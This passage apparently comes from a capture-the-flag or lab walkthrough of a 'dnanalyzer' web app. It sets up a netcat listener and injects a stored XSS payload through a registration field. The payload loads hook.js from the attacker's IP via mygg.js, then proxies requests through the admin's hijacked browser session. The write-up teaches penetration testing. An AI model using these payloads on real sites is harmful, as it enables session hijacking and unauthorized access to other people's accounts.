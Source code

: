 We see no cookies in the request sent back to us. This could mean that there are no cookies, but that would be weird because there is a login, which indicates sessions. What is more probable is the use of httponly flag on the cookies, or that the site uses session tokens sent via headers.

```
root@kali:~# nc -nlvp 80
GET / HTTP/1.1
Host: 192.168.0.34
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/dnanalyzer/portal/index.php
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
```

### Proxy via XSS

However, there is another trick we can use. We can use a tool called mygg.js to use XSS to browse through the admin's browser to take a look at the site via their authenticated session. Follow the basic installation at https://github.com/dsolstad/mygg.js and edit the configuration in the top section of the file. Change the domain variable to your attacking IP address before starting it the tool `$ node mygg.js`. After this we can change the XSS payload and use mygg's hook instead.

```
root@kali:~# curl -i -d "username=test4&password=test&dna_string=<svg/onload=\"var x=document.createElement('script');x.src='http://192.168.0.34/hook.js';document.head.appendChild(x);\">" http://192.168.0.36/dnanalyzer/api/register.php
```
After some minutes we can see that we have a new hooked browser in the console of mygg. We also see which URL it was hooked from. 


```
root@kali:~# node mygg.js
[+] Payload stager:
<svg/onload="var x=document.createElement('script');x.src='//192.168.0.34/hook.js';document.head.appendChild(x);">

[+] Proxy server listening on address 127.0.0.1 port 8081
[+] HTTP server listening on address 0.0.0.0 port 80
[+] HTTPS server listening on address 0.0.0.0 port 443
[+] Hooked new browser [192.168.0.36][Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0][http://127.0.0.1/dnanalyzer/portal/index.php]
```

Now, change the proxy settings in your attacking web browser to 127.0.0.1:8081 and browse to http://127.0.0.1/dnanalyzer/portal/index.php and you should be logged in! What we see in the admin panel is what appears to be a button to analyse the user provided DNA strings. Hit Ctrl+Shift+I to bring up the Web Developer toolbar to view the request to the API. Instead of using the browser forward, we can now use curl via mygg.js to play around with the request.

```
root@kali:~# curl -i -x 127.0.0.1:8081 -d '{"id":"6","val":"GATC"}' http://127.0.0.1/dnanalyzer/portal/analyze_dna.php
HTTP/1.1 200 OK
cache-control: no-store, no-cache, must-revalidate
connection: Keep-Alive
content-type: text/html; charset=UTF-8
date: Fri, 18 Sep 2020 21:26:10 GMT
expires: Thu, 19 Nov 1981 08:52:00 GMT
keep-alive: timeout=5, max=100
pragma: no-cache
server: Apache/2.4.38 (Debian)
Content-Length: 6

```